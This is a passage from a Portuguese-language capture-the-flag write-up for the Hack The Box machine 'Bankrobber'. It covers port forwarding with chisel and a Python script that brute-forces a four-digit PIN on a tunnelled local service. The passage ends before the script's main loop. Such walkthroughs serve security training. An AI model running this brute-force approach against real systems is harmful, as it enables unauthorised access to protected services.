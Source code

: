 ![Server chisel](Assets\HTB-Windows-Insane-Bankrobber\server_chisel.png)

A partir de agora, a porta 910 da minha máquina local kali é igual á da máquina alvo.

Se usarmos um simples nc, dá para ver o que se lá passa:

![Local 910](Assets\HTB-Windows-Insane-Bankrobber\local910.png)

Está protegido por um PIN. Como está na nossa máquina, e sempre que tento um PIN, o programa apenas se fecha e está pronto para outra, vou fazer brute force nele!!

```python
import socket
import sys
from pwn import log


def tryPin(pin, p1):
	p1.status(f"Testando com PIN {pin.strip()}")
	s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
	s.connect(("127.0.0.1",910))
	s.recv(4098)
	s.send(bytes(pin.encode()))
	msg = s.recv(4098).decode()

	if not "Access denied" in msg:
		p1.success(f"PIN encontrado. O PIN correcto é o: {pin.strip()}")
		sys.exit(0)


def getListOfPins():
	pins = []
	for first_num in range(0,10):
		for second_num in range(0,10):
			for third_num in range(0,10):
				for fourth_num in range(0,10):
					pin = str(first_num) + str(second_num) + str(third_num) + str(fourth_num)
					pins.append(pin + "\n")
	return pins


```